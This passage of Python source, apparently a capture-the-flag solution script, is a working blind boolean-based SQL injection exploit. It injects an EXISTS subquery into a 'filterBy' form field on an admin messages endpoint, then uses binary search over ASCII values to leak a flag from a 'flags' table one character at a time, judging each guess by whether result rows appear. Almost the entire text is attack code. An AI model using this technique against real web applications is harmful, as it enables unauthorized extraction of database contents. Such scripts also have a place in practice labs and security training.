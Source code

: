 ```python
        return j["csrfToken"]
    return html.unescape(m.group(1))

def test_condition(pos: int, threshold: int, csrf_token: str, ge: bool = True) -> bool:
    op = ">=" if ge else "<"
    filter_by = f'id" IS NOT NULL AND EXISTS(SELECT 1 FROM flags WHERE ASCII(SUBSTRING(flag,{pos},1)) {op} {threshold}) AND "msg'
    data = {
        "_csrf": csrf_token,
        "filterBy": filter_by,
        "keyword": "%",
    }
    r = session.post(f"{BASE}/admin/msgs", data=data, timeout=25)
    r.raise_for_status()
    m = re.search(r"<tbody>(.*?)</tbody>", r.text, flags=re.S|re.I)
    tbody = m.group(1) if m else ""
    rows = re.findall(r"<tr>", tbody, flags=re.I)
    return len(rows) >= 1

def leak_char(pos: int, csrf_token: str) -> str:
    lo, hi = 32, 126
    while lo < hi:
        mid = (lo + hi + 1) // 2
        ok = test_condition(pos, mid, csrf_token, ge=True)
        if ok:
            lo = mid
        else:
            hi = mid - 1
    return chr(lo)

def main():
    set_cookies()
    csrf = get_csrf()
    print(f"[+] CSRF token: {csrf}")

    flag = ""
    for pos in range(1, 200):
        ch = leak_char(pos, csrf)
        flag += ch
        print(f"[+] pos {pos}: {ch!r}  =>  {flag}")
        if ch == "}":
            break
        time.sleep(0.1)

    print("\n[+] DONE. Flag:", flag)

if __name__ == "__main__":
    main()
```
